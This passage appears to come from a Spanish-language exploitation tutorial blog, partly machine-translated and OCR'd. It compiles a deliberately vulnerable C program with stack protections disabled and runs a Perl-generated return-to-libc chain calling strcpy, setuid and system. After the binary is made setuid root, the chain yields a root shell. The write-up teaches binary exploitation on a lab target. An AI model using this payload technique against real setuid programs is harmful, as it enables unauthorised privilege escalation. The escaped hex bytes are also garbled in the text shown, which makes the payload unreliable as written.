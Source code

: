 int main(int argc, char\*\* argv)  
{  
if (argc < 2)  
{  
printf(“Missing argsn”);  
return -1;  
}  
func(argv\[1\]);  
return 0;  
}  
$ gcc vuln.c -o vuln -m32 -fno-stack-protector -D\_FORTIFY\_SOURCE=0 -no-pie -fno-pie -fno-pic  
$ /home/arget/vuln “\`perl -e ‘print  
“x54xd2xffxff” . “x20x94xe8xf7” . “x84x84x04x08” . “x9cxd2xffxff” . “xfcx82x04x08” .  
“x68xd2xffxff” . “x20x94xe8xf7” . “x84x84x04x08” . “x9dxd2xffxff” . “xfcx82x04x08” .  
“x7cxd2xffxff” . “x20x94xe8xf7” . “x84x84x04x08” . “x9exd2xffxff” . “xfcx82x04x08” .  
“x90xd2xffxff” . “x20x94xe8xf7” . “x84x84x04x08” . “x9fxd2xffxff” . “xfcx82x04x08” .  
“xa0xd2xffxff” . “x60x3dxebxf7” . “x84x84x04x08” .  
“ARGT” . # Este ARGT es el argumento para setuid()  
“xa4xd2xffxff” . “x50xc8xe3xf7” . “xc5x35xebxf7” . “xc8xecxf5xf7” .  
“x01AGT” . # Argumento para exit()  
“C”x20 . # Relleno final  
“x40xd2xffxff” . “x84x84x04x08″‘\`”  
$

\### Baia, guarden la calma ###

$ sudo chown root:root vuln  
\[sudo\] password for arget:  
$ sudo chmod u+s vuln  
$ /home/arget/vuln “\`perl -e ‘print  
“x54xd2xffxff” . “x20x94xe8xf7” . “x84x84x04x08” . “x9cxd2xffxff” . “xfcx82x04x08” .  
“x68xd2xffxff” . “x20x94xe8xf7” . “x84x84x04x08” . “x9dxd2xffxff” . “xfcx82x04x08” .  
“x7cxd2xffxff” . “x20x94xe8xf7” . “x84x84x04x08” . “x9exd2xffxff” . “xfcx82x04x08” .  
“x90xd2xffxff” . “x20x94xe8xf7” . “x84x84x04x08” . “x9fxd2xffxff” . “xfcx82x04x08” .  
“xa0xd2xffxff” . “x60x3dxebxf7” . “x84x84x04x08” .  
“ARGT” . # This ARGT is the argument to setuid()  
“xa4xd2xffxff” . “x50xc8xe3xf7” . “xc5x35xebxf7” . “xc8xecxf5xf7” .  
“x01AGT” . # Argumento para exit()  
“C”x20 . # Relleno final  
“x40xd2xffxff” . “x84x84x04x08″‘\`”  
\# whoami  
root  
#

`EBP falso - strcpy() - &leave;ret - arg1 - arg2` scheme is clearly seen the first 4 lines. Later the scheme `EBP falso - función() - &leave;ret - arg`. for setuid() functions and system(). As exit() does not return not need false frame. Come end of the function (yes, again with double meaning). Hopefully in this epilogue not collect any false frame. Good afternoon.

We resume the CBC itself. On this occasion I propose to find an original way to solve the challenge presented in the post [ret2libc: firing his own gun](/es/partiendo-de-la-base-ataques-al-base-frame-pointer-ebp). This challenge has already been presented two solutions in post ROP: In exploiting and love anything goes (One in the solutionary and another in through the post).
